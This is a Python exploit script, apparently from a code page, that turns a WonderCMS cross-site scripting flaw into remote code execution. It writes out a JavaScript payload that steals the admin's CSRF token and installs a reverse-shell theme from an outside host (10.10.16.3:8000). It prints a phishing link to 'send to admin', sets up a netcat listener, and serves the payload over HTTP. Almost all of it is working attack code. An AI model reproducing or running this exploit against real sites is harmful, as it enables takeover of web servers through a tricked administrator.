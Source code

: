 ```
# Exploit: WonderCMS XSS to RCE
import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLog+"/?installModule=http://10.10.16.3:8000/revshell-main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")

```
